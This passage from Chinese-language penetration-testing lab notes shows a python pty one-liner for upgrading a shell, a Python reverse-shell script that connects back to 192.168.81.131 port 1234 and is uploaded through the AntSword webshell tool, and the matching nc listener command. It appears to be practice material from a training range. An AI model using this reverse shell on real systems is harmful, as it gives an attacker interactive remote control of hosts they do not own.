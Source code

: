 进行提权的时候可以切换python终端

```
python -c 'import pty;pty.spawn("/bin/bash")'
```

或用

```
whoami #查看当前用户权限
```



## 3-3 nc_python反弹shell

python文件,生成的python文件名为: **xxb.py**

把文件通过蚁剑进行上传

```
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("192.168.81.131",1234))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/bash","-i"])
```

![image-20220318144041309](靶场练习.assets/image-20220318144041309.png)

服务端监听

```
nc -nvlp 1234
```
